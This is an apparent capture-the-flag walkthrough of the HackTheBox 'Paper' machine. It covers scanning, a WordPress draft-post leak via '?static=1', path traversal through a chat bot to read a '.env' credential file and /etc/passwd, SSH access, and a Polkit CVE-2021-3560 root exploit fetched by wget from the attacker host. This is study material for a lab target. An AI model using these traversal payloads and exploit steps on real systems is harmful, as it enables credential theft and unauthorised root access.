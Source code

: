 ```yaml
---
title: Hackthebox Paper Writeup
slug: hackthebox-paper-writeup
description: Hackthebox release new machine called paper, in this machine on port 80 it's first leak the new vhost called office.paper on responce header X-Backend-Server after that wordpress version is vernable through Unauthenticated View Private/Draft Posts and we got the hint already with nick comment using the vernability we check the draft message that leak to another vhost and register ourself to that and get the directory Path Traversal and get the .env secret and login through ssh and for Privilege escalation we run linpeas that lead us to CVE-2021-3560.
date: 2022-02-07
image: hackthebox-paper-writeup.webp
---
```



## Nmap

```js
┌───[us-free-1]─[10.10.14.41]─[root@parrot]─[~/Desktop/HTB/Paper]
└──╼ [★]$ nmap -sC -sV -oA nmap/result 10.10.11.143
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-07 00:04 CST
Nmap scan report for 10.10.11.143
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.00 seconds
```

## Port-80

It's a simple `static` page.

<FixTheImageURL src="web.png" slug="hackthebox-paper-writeup" />

Going over https site on port `443`. let's check the `certificate` first.

<FixTheImageURL src="web1.png" slug="hackthebox-paper-writeup" />

No `usefull information` on certificates let's now check the `web page`.

Same page which we see on `port 80`. nothing useful

<FixTheImageURL src="web2.png" slug="hackthebox-paper-writeup" />

I run the `gobuster` in background and `nothing found` there let's check the `responce headers` of the port `80`

<FixTheImageURL src="burp.png" slug="hackthebox-paper-writeup" />

And we found a `new vhost` let's add this on `/etc/hosts` file.

## office.paper

```js
┌───[us-free-1]─[10.10.14.41]─[root@parrot]─[~/Desktop/HTB/Paper]
└──╼ [★]$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       parrot

#custom
10.10.11.143    office.paper

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Got a `new web page`. Theme look like `wordpress` theme let's conform that with `checking the footer`.

<FixTheImageURL src="web3.png" slug="hackthebox-paper-writeup" />

Yup i am right it's running `wordpress 5.2.3`

<FixTheImageURL src="web4.png" slug="hackthebox-paper-writeup" />

And i found one comment which tell `michael` to remove the `secret content` in drafts ASAP.

But for checking the `drafts` we need `admin creads` that we don't have till now.

<FixTheImageURL src="web5.png" slug="hackthebox-paper-writeup" />

Now let's search the exploit for `wordpress 5.2.3` on google.

## WordPress 5.2.3 - Unauthenticated View Private/Draft Posts

<br />
Link : https://wpscan.com/vulnerability/9909

This vulnerability could allow an `unauthenticated user` to view private or `draft posts` due to an issue within `WP_Query`.

For that we just need to add `?static=1` after the url.

<FixTheImageURL src="web6.png" slug="hackthebox-paper-writeup" />

## chat.office.paper

And we get the `secret` that tell us about `new vhost` and registration url. let's add the vhost in `/etc/hosts` file.

```js
┌───[us-free-1]─[10.10.14.41]─[root@parrot]─[~/Desktop/HTB/Paper]
└──╼ [★]$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       parrot

#custom
10.10.11.143    office.paper chat.office.paper

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Going to `registration url` we get the registration form let's `register ourself`.

<FixTheImageURL src="web7.png" slug="hackthebox-paper-writeup" />

Now we are inside the `dashboard` let's click on general.

<FixTheImageURL src="web8.png" slug="hackthebox-paper-writeup" />

In the chat there is `recyclops bot` that helps the user to list the sales directory with `list command` and with `file command` we can view the content inside the file.

<FixTheImageURL src="web9.png" slug="hackthebox-paper-writeup" />

let's chat with `recyclops bot`.

<FixTheImageURL src="web10.png" slug="hackthebox-paper-writeup" />

I am using the `list and file command` to get the content inside `directory`.

<FixTheImageURL src="web11.png" slug="hackthebox-paper-writeup" />

the list `command list` the directory of current path let's try directory `Path Traversal` using `../`

And we get the previous `directory content`. hubot directory looks `interesting` let's check the content in that.

<FixTheImageURL src="web12.png" slug="hackthebox-paper-writeup" />

Got a `.env` file. `.ENV` file usually use to store `secrets`.

<FixTheImageURL src="web13.png" slug="hackthebox-paper-writeup" />

let's check the content in that using file `../hubot/.env`

And we got the `username` and `password`.

<FixTheImageURL src="web14.png" slug="hackthebox-paper-writeup" />

Let's try these `creads` to login inside `rocket.chat`

<FixTheImageURL src="web15.png" slug="hackthebox-paper-writeup" />

Let's check the `user available` in this machine using file `../../../etc/passwd`

<FixTheImageURL src="web16.png" slug="hackthebox-paper-writeup" />

## Shell as dwight

Let's try to `login` through ssh with `dwight user`.

And we got the `user.txt`

```js
┌───[us-free-1]─[10.10.14.41]─[root@parrot]─[~/Desktop/HTB/Paper]
└──╼ [★]$ ssh dwight@10.10.11.143
The authenticity of host '10.10.11.143 (10.10.11.143)' can't be established.
ECDSA key fingerprint is SHA256:2eiFA8VFQOZukubwDkd24z/kfLkdKlz4wkAa/lRN3Lg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.143' (ECDSA) to the list of known hosts.
dwight@10.10.11.143's password:
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Mon Feb  7 01:33:06 2022 from 10.10.14.36
[dwight@paper ~]$ cat user.txt
de10a0c07ef81100a812a1bf274d0364
[dwight@paper ~]$
```

## Privilege escalation

### Recon with linpeas

let's run `linPEAS`.

And we see this machine is vulnerable to `CVE-2021-3560` that is `Polkit or Pwnkit` which allows `unprivileged user` to call privileged methods using `DBus`.

<FixTheImageURL src="cmd.png" slug="hackthebox-paper-writeup" />

## CVE-2021-3560

<br />
Link : https://github.com/Almorabea/Polkit-exploit

Let's get this `python script` inside this `machine` and `run` this.

```js
[dwight@paper tmp]$ wget http://10.10.14.41/CVE-2021-3560.py
[dwight@paper tmp]$ chmod +x CVE-2021-3560.py
[dwight@paper tmp]$ python3 CVE-2021-3560.py
```

And we get the `root.txt` file.

<FixTheImageURL src="cmd1.png" slug="hackthebox-paper-writeup" />
